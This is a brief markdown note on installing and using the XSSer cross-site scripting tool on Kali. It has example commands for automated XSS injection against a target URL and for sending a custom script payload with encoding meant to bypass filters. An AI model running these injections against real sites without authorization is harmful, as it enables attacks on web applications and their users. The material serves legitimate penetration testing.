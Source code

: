 # XSSer
https://github.com/epsylon/xsser
## Install
1.  install via apt on kali
```
sudo apt install xsser
```
## Documentation
https://github.com/epsylon/xsser/tree/master/doc
## Examples
### Multiple injections from URL, with automatic payloading, establishing a reverse connection and showing statistics with verbose output and saving results to file (XSSreport.raw)
```
xsser -u "https:/target.com/XSS" --auto --reverse-check -s --verbose --save
```
### Multiple target URLs from a file, payloading your -own- code and using Unescape() character encoding to bypass filters
```
xsser -i "urls.txt" --payload "<script>alert('XSSed');</script>" --Une
```